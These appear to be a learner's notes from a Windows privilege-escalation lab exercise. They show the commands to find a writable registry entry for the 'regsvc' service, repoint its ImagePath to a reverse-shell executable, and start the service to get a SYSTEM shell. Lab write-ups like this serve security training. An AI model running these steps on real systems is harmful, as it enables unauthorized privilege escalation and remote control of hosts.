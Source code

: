 Query the "regsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).

```
sc qc regsvc
```

![[Pasted image 20240527223408.png]]

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):

```
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

![[Pasted image 20240527223517.png]]


Overwrite the ImagePath registry key to point to the reverse.exe executable you created:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

![[Pasted image 20240527223548.png]]


Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:

```
net start regsvc
```

![[Pasted image 20240527223616.png]]

![[Pasted image 20240527223629.png]]


Answer the questions below

Read and follow along with the above.
